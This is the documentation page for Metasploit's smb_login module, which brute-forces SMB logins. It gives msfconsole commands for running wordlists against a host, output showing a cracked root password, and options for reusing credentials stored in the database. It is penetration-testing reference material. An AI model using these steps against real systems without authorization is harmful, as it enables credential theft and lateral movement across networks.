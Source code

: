 The `smb_login` module is used to bruteforce SMB remotely. SMB credentials
are extra valuable because they are system credentials, and you can
probably reuse some of them to log in to more machines.

## Vulnerable Application

To use `smb_login`, make sure you are able to connect to a SMB service that supports SMBv1.

## Verification Steps

The following demonstrates a basic scenario of using the [built-in
wordlists][wordlists] to brute-force SMB:

```
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > set RHOSTS 192.168.1.80
RHOSTS => 192.168.1.80
msf auxiliary(smb_login) > set USER_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
USER_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
msf auxiliary(smb_login) > set PASS_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
PASS_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
msf auxiliary(smb_login) > run

[+] 192.168.1.80:445      - 192.168.1.80:445 SMB - Success: '.\root:monkey' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) >
```

If you have a database connected, you should also see this credential
logged:

```
msf auxiliary(smb_login) > creds
Credentials
===========

host          origin        service        public  private  realm  private_type
----          ------        -------        ------  -------  -----  ------------
192.168.1.80  192.168.1.80  445/tcp (smb)  root    monkey          Password

msf auxiliary(smb_login)
```

## Options

By default, the `smb_login` module only requires the RHOSTS option to run.
But in reality, you will also need to supply user names and passwords.
The following options are available to support different credential
formats:

**The `USER_FILE` option**

If you happen to manage all the found user names in a separate file,
then this option would be suitable for that. One per line.

An example of setting `USER_FILE`:

```
set USER_FILE [path to file]
```

**The `PASS_FILE` option**

If you happen to manage all the found passwords in a separate file, then
this option would be suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The `USERPASS_FILE` option**

If each user should be using a specific password in your file, then you
can use this option. One username/password per line:

```
set USERPASS_FILE [path to file]
```

**The `DB_ALL_CREDS` option**

This option allows you to reuse all the user names and passwords
collected by the database:

```
set DB_ALL_CREDS true
```

**The `DB_ALL_PASS` option**

This option allows you to reuse all the passwords collected by the
database.

```
set DB_ALL_PASS true
```

**The `DB_ALL_USERS` option**

This option allows you to reuse all the user names collected by the
database.

```
set DB_ALL_USERS true
```

**The `SMBUser` option**

If you are testing a specific user, use this option.

```
set SMBUser [user name]
```

**The `SMBPass` option**

If you are testing a specific password, use this option.

```
set SMBPass [password]
```

*Note*: If an account has been successfully brute-forced, that account
will not be tried again.

[wordlists]: https://github.com/rapid7/metasploit-framework/tree/master/data/wordlists

